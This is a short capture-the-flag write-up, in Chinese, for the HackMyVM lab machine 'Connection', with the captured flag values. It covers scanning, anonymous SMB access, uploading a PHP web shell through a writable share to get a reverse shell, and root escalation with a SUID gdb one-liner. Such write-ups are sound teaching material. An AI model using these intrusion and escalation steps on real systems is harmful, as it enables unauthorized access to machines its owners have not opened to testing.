 # Connection

2024-11-04 https://hackmyvm.eu/machines/machine.php?vm=Connection

## IP

192.168.5.40

## Scan

```
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

先看 samba 服务：

```
smbclient -L //192.168.5.40/
```

发现目录 share， smbclient -N //192.168.5.40/share/ 进入后，看到目录中有 html/index.html 文件，对应的是 80 web 服务的首页文件。并且有权限能够上传文件，直接上传一个 php 的 web shell，然后访问获得反弹 shell 链接。

先获得了 user flag：

```
www-data@connection:/home/connection$ pwd
/home/connection

www-data@connection:/home/connection$ cat local.txt
3f491443a2a6aa82bc86a3cda8c39617
```

sudo 没有发现信息，查找 suid 提权路径，发现 gdb，进行利用：

```
gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
```

最终获得了 root flag：

```
id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
cd /root
ls
proof.txt
cat proof.txt
a7c6ea4931ab86fb54c5400204474a39
```
